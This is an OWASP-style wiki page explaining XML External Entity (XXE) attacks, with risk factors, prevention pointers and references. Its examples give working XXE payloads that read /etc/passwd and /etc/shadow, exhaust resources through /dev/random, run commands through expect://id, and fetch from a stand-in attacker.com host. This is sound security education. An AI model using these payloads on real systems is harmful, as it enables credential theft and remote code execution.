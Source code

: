 ```yaml
---

layout: col-sidebar
title: XML External Entity (XXE) Processing
author: 
contributors: 
permalink: /vulnerabilities/XML_External_Entity_(XXE)_Processing
tag: vulnerability, XML External Entity (XXE) Processing
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **//**

[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type
    declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection
(OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///dev/random"``
 ``>]><foo>&xxe;</foo>`**

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

`'''`

<?xml version="1.0" encoding="ISO-8859-1"?>

'''

*`'``   ``<!DOCTYPE``   ``foo``   ``[``   ``<!ELEMENT``   ``foo``
 ``ANY``   ``>`*`'`
*`'``   ``<!ENTITY``   ``xxe``   ``SYSTEM``   ``"expect://id"``
 ``>]>`*`'`
` `*`'``   `<creds>*`'`
` `*`'``   `<user>`&xxe;`</user>*`'`
` `*`'``   `<pass>`mypass`</pass>*`'`
` `*`'``   `</creds>*`'`

### Disclosing /etc/passwd or other targeted files

`''' `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/passwd>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/shadow>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///c:/boot.ini>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>`<foo>`&xxe;`</foo>`'''`

## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](Controls "wikilink")

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise defend
against XXE attacks is presented in the [XML External Entity (XXE)
Prevention Cheat
Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink").

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat
    Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink")
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks -
    A Compendium of Known
    Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec
    USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity
    Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type
    Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at
    OWASP AppSec
    Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE
    vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in
    French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in
    .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on
    XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")